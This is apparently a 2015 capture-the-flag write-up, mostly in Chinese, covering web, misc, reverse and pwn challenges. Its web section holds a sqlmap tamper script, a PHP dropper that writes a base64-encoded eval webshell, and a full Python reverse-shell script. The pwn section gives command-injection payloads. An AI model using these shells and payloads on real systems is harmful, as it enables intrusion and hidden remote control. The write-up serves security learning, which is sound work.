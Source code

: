 ```yaml
---
title: gctf2015-writeup
pubDatetime: 2015-10-03 00:45:04
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_gctf2015_writeup
---
```


## gctf writeup, by cnss

### WEB200

    先吐槽，第一天做的时候web100表里面居然flag字段为空，就以为是个坑，到处翻表，结果是被人搅了而已，那么卡的服务器居然出的是时间盲注真是醉了。
    当url中出现大写的PG_SLEEP的时候就会返回can’t use sleep，测试小写的时候发现可以成功sleep并不拦截。因此写个tamper用sqlmap跑，tamper代码如下：

```python
def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload.replace("PG_SLEEP","pg_sleep");

return retVal
```

    sqlmap的关键参数是 --tamper xxx.py --technique T --dbms postgresql –D public –T web100 --dump  在flag字段注入出flag。

### WEB300

    Hint说会被立刻删除，因此写个php写上上级目录，放进zip中，用burp一直跑对应用户名的上传目录即可。php代码如下：

```php
< ?php
$dir = dirname(__FILE__);
$basedir = $dir."/../../";
system("chmod -Rf 777 ".$basedir); //由于目录权限被搅，还要把权限设置回来
echo $basedir;
echo file_put_contents("../../luoisyourfather.php",base64_decode("DQo8P3BocCANCmlmKG1kNSgkX0dFVFsneCddKSA9PSAiZTNiN2QzZjgyM2VhODJkMmY2M2FkM2JiZmQwN2I0ZmMiKXsNCiAgICBldmFsKCRfUE9TVFsnbHVvJ10pOyANCn0NCj8+"));
?>
```

    本人上传的用户名为testluo，文件名为3.php因此burp一直get /uploads/testluo/3.php，出现200状态码即可
    成功拿到shell后在网站根目录的fl4g文件夹下发现flag。(然后就可以写脚本搅屎了)

### WEB500

    两种办法，可以用portmap把22转发出来用ssh，另一个用python写一个tty的shell反弹出来。我选择python的ttyshell，因为ssh猜密码很麻烦。Python代码如下：

```python
#!/usr/bin/python
import sys
import os
import socket
import pty

shell = "/bin/sh"

def usage(programname):
print "python connect-back door"
print "Usage: %s <conn_back_ip> <port>" % programname

def main():
if len(sys.argv) !=3:
usage(sys.argv[0])
sys.exit(1)

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

try:
s.connect((socket.gethostbyname(sys.argv[1]),int(sys.argv[2])))
print "[+]Connect OK."
except:
print "[-]Cant connect"
sys.exit(2)

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
global shell
os.unsetenv("HISTFILE")
os.unsetenv("HISTFILESIZE")
pty.spawn(shell)
s.close()

if __name__ == "__main__":
main()
```

    弹出来shell后直接su redrain，密码为弱口令asd123!@#，在/home/redrain下发现flag

### Misc 50

    网页源码里 aaencode的代码,运行,出来一个gctf{}，以为少了东西,找了半天提交了一下居然对了..

### Misc100

    递归查{} 注意从源码复制和嵌套,爆破也可以，脚本跑出来一直是267，不对( ⊙ o ⊙ )啊！
    默默+1 -1 发现266对了

```python
#-*-coding:utf-8-*-
def Count():
    s = '''the string without \\'''
    cnt = 0
    left = 0
    for i in s:
        if i == '{':
            left += 1
        if i == '}':
            if (left > 0):
                left -= 1
                cnt += 1
    print cnt

Count()
```

### Misc200/600

    http://insight-labs.org/?p=371 分离出来狗
    LSB在CSDN上有个工具,人家毕业设计 直接跑一下OK出来flag

### Re 1:

    simply Reverse.
    1.py:

```python
str1 = '62C5J110119120L'
	str2 = ''
	for i in range(len(str1)):
		str2 += chr(ord(str1[i]) + 49 )

	print str2
```

### Re2:

    a interesting Reverse, use SEH to control execute process.
    breakpoint in SEH process function(0x401000) and then trigger off a exception.

    there is a simply labyrinth.

```bash
00409036  2A 2A 2A 20 20 2A 2A 20 20 2A 2A 20 2A 2A 2A 2A  ***  **  ** ****
00409046  20 2A 2A 20 2A 2A 2A 2A 2A 2A 2A 20 2A 23 20 20   ** ******* *#
00409056  20 2A 2A 20 2A 2A 2A 2A 20 2A 2A 20 20 2A 2A 20   ** **** **  **
00409066  20 2A 2A 2A 20 20 20 20 2A 2A                     ***    **
```

    everytime I can +8,-8,+1,-1
    from 0x00409046 to 0x00409053
    cannot on 0x2A,length 25.

### Re3:

    use a table to control execution.
    breakpoint on every case to switch.
    look at the parameter of every crucial function(strcmp, strlen and so on)
    input len : 13, every -0x80, compare with a string.

### Pwn1:

    no NX, a global buffer we can enter into.
    a stack overflow, no cookie.

    arrange shellcode in global buffer, use stack overflow to return to buffer,getshell.

### Pwn2:

    no NX, a global buffer we can enter into.
    a fsb, we can leak address.
    a uaf, we can jmp to anywhere.
    but we cannot write shellcode in global buffer,beacuse we use uaf, the buffer will be corrupted.

    so, leak stack address, and then use uaf return to stack buffer.

### Pwn3:

    NX, cannot execute shellcode in stack and heap.
    safe stack, cannot overflow the stack
    but,there is a fsb and a command injection.

    bypass '>', ';', '<'
    use pipe.
    but cannot getshell.
    payload "ping *|ls"
    look at the file of flag's name,flag.txt
    use payload again "ping *|cat flag.txt"

</port></conn_back_ip>
